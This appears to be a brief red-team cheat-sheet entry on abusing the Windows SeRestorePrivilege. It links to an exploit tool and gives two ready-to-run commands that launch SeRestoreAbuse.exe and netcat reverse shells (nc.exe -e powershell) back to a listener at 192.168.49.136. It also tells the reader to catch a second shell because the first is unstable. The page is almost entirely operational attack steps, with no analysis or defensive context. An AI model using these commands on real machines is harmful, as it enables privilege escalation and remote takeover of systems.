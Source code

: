# SeRestorePrivilege

{% embed url="https://github.com/xct/SeRestoreAbuse" %}

{% embed url="https://github.com/dxnboy/redteam" %}

{% code overflow="wrap" %}
```
.\SeRestoreAbuse.exe "C:\Users\svc_apache$\Desktop\nc.exe -e powershell 192.168.49.136 443"
```
{% endcode %}

It's very unstable so you have create another listener and catch a second shell

{% code overflow="wrap" %}
```
C:\Users\svc_apache$\Desktop\nc.exe -e powershell 192.168.49.136 445
```
{% endcode %}
